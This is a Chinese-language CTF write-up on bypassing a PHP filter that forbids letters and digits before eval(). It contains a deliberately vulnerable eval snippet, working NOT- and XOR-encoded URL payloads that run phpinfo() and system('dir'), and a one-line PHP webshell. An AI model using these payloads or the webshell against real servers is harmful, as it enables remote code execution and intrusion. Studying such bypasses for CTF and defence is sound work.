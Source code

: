 这里采用p神的例子：

本文思路也是来源于p神两篇文章：

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html

```php
<?php
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>35){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code)){
        die("NO.");
    }
    eval($code);
}else{
    highlight_file(__FILE__);
}
```

此处过滤了，数字，字母，_，$

# 采用取反绕过：

首先构造phpinfo();来显示php信息。

payload:?code=(~%8F%97%8F%96%91%99%90)();//phpinfo();

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/命令执行/特殊字符绕过/images/6E1C29388AC54959A3B5D0F364E23FB2clipboard.png)

然后进一步操作，列目录。

payload:?code=(~%8C%86%8C%8B%9A%92)(~%9B%96%8D);//system(dir);

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/命令执行/特殊字符绕过/images/1646990F2FAC4B6DBEF0B8C4BC2A71B0clipboard.png)



此时，可以直接考虑直接写webshell，echo "<?php eval(@$_POST['a']); ?>" shell.php,但在此处，有长度限制，一句话无法写入。

但可以采用每次写入一个字符，在结尾追加的方式来写入。





# 采用异或绕过：

首先构造phpinfo();

payload:?code=(%8F%97%8F%96%91%99%90^%ff%ff%ff%ff%ff%ff%ff)();//phpinfo();

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/命令执行/特殊字符绕过/images/107ACEA48A944B7F813F6B2A64E022E3clipboard.png)

列目录：

payload:?code=(%8C%86%8C%8B%9A%92^%ff%ff%ff%ff%ff%ff)(%9B%96%8D^%ff%ff%ff);//system(dir);

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/命令执行/特殊字符绕过/images/286ECD4C6D8647AA8F6B149B44678534clipboard.png)



